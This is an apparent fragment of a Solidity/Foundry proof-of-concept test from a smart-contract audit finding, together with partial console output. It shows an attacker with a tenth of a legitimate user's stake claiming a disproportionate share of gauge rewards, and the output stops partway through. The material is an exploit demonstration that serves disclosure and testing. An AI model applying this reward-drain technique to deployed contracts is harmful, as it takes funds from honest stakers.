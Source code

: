 ```solidity 
        emit log_named_uint("Post-claim rewardPerTokenStored", gauge.rewardPerTokenStored());
        emit log_named_uint("Post-claim earned", gauge.earned(attacker));
        emit log_named_uint("Post-claim balance", rewardToken.balanceOf(attacker));
        vm.stopPrank();
        
        // Trace legitimate user's reward claim
        emit log_string("\nLegitimate User Reward Claim Flow:");
        vm.startPrank(legitimateUser);
        emit log_string("\nLegitimate User getReward Flow:");
        emit log_named_uint("Pre-claim rewardPerTokenStored", gauge.rewardPerTokenStored());
        emit log_named_uint("Pre-claim earned", gauge.earned(legitimateUser));
        emit log_named_uint("Pre-claim balance", rewardToken.balanceOf(legitimateUser));
​
        gauge.getReward();  // Triggers: updateReward -> _updateReward -> earned -> transfer
​
        emit log_named_uint("Post-claim rewardPerTokenStored", gauge.rewardPerTokenStored());
        emit log_named_uint("Post-claim earned", gauge.earned(legitimateUser));
        emit log_named_uint("Post-claim balance", rewardToken.balanceOf(legitimateUser));
        vm.stopPrank();
        
        // ANALYSIS
        emit log_string("\n=== Analysis ===");
        emit log_named_uint("Stake Ratio (Legitimate:Attacker)", 1000e18 / 100e18);
        emit log_named_uint("Reward Ratio (Attacker:Legitimate)", 
            rewardToken.balanceOf(attacker) * 100 / rewardToken.balanceOf(legitimateUser));
        
        assertTrue(
            rewardToken.balanceOf(attacker) > rewardToken.balanceOf(legitimateUser) / 2,
            "Attacker with 1/10th stake shouldn't get more than half of legitimate user's rewards"
        );
​
        emit log_string("\n=== Function Call Flow Analysis ===");
        emit log_string("\n1. Legitimate User Stake Flow:");
        vm.startPrank(legitimateUser);
        emit log_named_uint("rewardPerTokenStored", gauge.rewardPerTokenStored());
        emit log_named_uint("lastUpdateTime", gauge.lastUpdateTime());
        vm.stopPrank();
    } 
}
```
    
OUTPUT:-

```solidity 
=== Initial Setup ===
​
=== Legitimate User Stakes ===
// Legitimate user stakes 1000e18 tokens
​
=== Attack Execution ===
Attacker Staking Flow:
Attacker Stake Amount: 100000000000000000000  // 100e18 tokens (10% of legitimate stake)
​
Reward Distribution Flow:
​
=== Reward Claims ===
​
Attacker Reward Claim Flow:
Attacker getReward Flow:
Pre-claim rewardPerTokenStored: 0
Pre-claim earned: 437229
Pre-claim balance: 0
Post-claim rewardPerTokenStored: 43290043290043288
Post-claim earned: 0
```